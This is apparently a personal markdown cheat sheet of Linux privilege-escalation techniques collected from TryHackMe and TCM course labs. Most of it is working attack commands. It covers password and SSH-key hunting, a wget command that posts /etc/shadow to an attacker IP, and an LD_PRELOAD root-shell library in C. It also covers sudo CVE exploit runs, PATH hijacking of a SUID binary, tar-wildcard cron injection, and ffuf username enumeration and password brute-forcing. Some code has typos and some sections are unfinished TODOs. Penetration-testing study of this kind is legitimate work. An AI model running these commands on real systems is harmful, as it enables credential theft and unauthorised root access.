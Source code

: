 **1. Basic CMDs**
**2. SUIDS, LD_PRELOAD, && CVE's**
**3. Other Escalation Techniques**
**4. Log4j**
**5. References**

---

###**1 Basic CMDs::**###
+ invoke-rc.d - All access to the init scripts by Debian packages' maintainer scripts should be done through invoke-rc.d
+ ip neigh - like arp -a 
  + check the communication between IP's and ports
+ grep --color=auto -rnw '/' -ie "PASSWORD(=)" --color=always 2>/dev/null (Very nice grep cmd)
+ find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
+ cat .ovpn - sometimes has password info
+ sudo -l
+ ps aux - for ports
+ find / -name authorized_keys 2>/dev/null
+ find / -name id_rsa 2>/dev/null
+ find / -type f -perm -04000 ls 2>/dev/null
+ strace /dir/to/sicky/bit(X.so) 2>&1 | grep -i -E "open|access|no such file"

+ intended functionality:
+ sudo apache -f /etc/shadow
+ sudo wget --post-file=/etc/shadow <attacker-ip>:8081 #Send the shadow file to self
---

###**2. SUIDS, LD_PRELOAD, && CVE's**###

**CVE's && LD_PRELOAD::**
+ Privesc with LD_PRELOAD=
  + `sudo -l :: env_reset, env_keep+=LD_PRELOAD`
  + ***run malicious library before any other***
---
vim shell.c
```
#inclue<stdio.h>
#inclue<sys/types.h>
#inclue<stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setguid(0);
    setuid(0);
    system("/bin/bash");
}
```
`$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
`$ sudo LD_PRELOAD=/path/to/file/shell.so apache2  #service from sudo -l` :: root@XYZ#

dirsearch - similar to gobuster/dirbuster 

brute_forcing with CMS made simple: see ![brute_force_cms_script](screenshots/CMS_made_simple_brute_force.png) && "fun_brute_force_script"

**CVE-2019-14287::**
`sudo -l :: hacker ALL=(ALL,!root) /bin/bash`
`# sudo -u#-1 /bin/bash`
# https://tryhackme.com/room/sudovulnsbypass
# Exploit-DB for CVE-2019-14287 - https://www.exploit-db.com/exploits/47502


**CVE-2019-18634::**
`cat /etc/sudoers :: Defaults env_rest,pwfeedback`
`# sudo -V :: 1.8.21p2 && file grammar V 46`
`./exploit #C program` See ![cve](screenshots/cve_2019_18634.png)
# https://tryhackme.com/room/sudovulnsbof
# Exploit CVE-2019-18634 - https://github.com/saleemrashid/sudo-cve-2019-18634

**CVE-2021-3156 Baron Samedit::**
```
Affects any unpatched sudo 1.8.2-1.8.31p2-1.9.0-1.9.5p1
This time the vulnerability is a heap buffer overflow, as opposed to the stack buffer (CVE-2019-18634)
The stack is a very regimented section of memory which stores various important aspects of a program. \
The heap, on the other hand, is reserved for dynamic allocation of memory, \
allowing for more flexibility in how values and constructs are created and accessed by a program.
```
See ![is_vuln?](screenshots/cve_2021315.png)
# https://github.com/blasty/CVE-2021-3156
# https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
```
make
./sudo-hax-me-a-sandwich
# See ![sudo_root_cve_20211316](screenshots/cve_2021315_make_run.png)
```

##**SUID - Shared Object Injection::**##
`find / -type f -perm -04000 -ls 2>/dev/null`
TODO:: Escalation via shared object injection

##**SUID escalation w/ Binary Symlinks via nginx::**##
https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
https://academy.tcm-sec.com/courses/1154399/lectures/24800164
---

##**SUID escalation w/ env variables::**##
https://academy.tcm-sec.com/courses/1154399/lectures/24800170
```
strings /usr/local/bin/suid-env :: "etc etc... service apache2 start
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > tmp/service
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
###** 3. Other Escalation techniques::**###

Enumeration of domains && users::
wfuzz -c -f sub-fighter -w /subdomains-top1million-110000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.thm" --hw 209
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.248.128 -fs 2395  #-fs filters out most common size -try various sizes based off results
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" | grep "Status; 200"
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.17.206/customers/login -fc 200

Good Telnet exploits: https://tryhackme.com/room/protocolsandservers2 


##**Escalation w/ scheduled tasks cron/timers::**##
```
cat /etc/crontab #Anything with wildcard
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > /home/andrew/backup/shell.sh
chmod +x shell
touch /home/andre/backup/--checkpoint=1
touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh
# run ls /tmp && make sure /tmp/bash is available.
./tmp/bash -p :: whoami - root
```

`systemctl list-timers --all`


###**3. Log4j**###
**CVE-2021-44228 log4j::**
TODO:: 
# [](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java)
# [](https://log4shell.huntress.com/)
# [](https://www.youtube.com/watch?v=7qoPDq41xhQ)
# [](https://github.com/YfryTchsGD/Log4jAttackSurface)

** 4. References::**
```
[Lin_enum_tips](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[tools_&_checklists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
[hacktricks_lin_privesc](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
[OWASP_lin_privesc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
[TCM_GITHUB](https://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources)
[TCM_THM](https://tryhackme.com/room/linuxprivescarena)
[sql-injection_CMSMS_exploit](https://www.exploit-db.com/exploits/46635)
[dirsearch](https://github.com/maurosoria/dirsearch)
```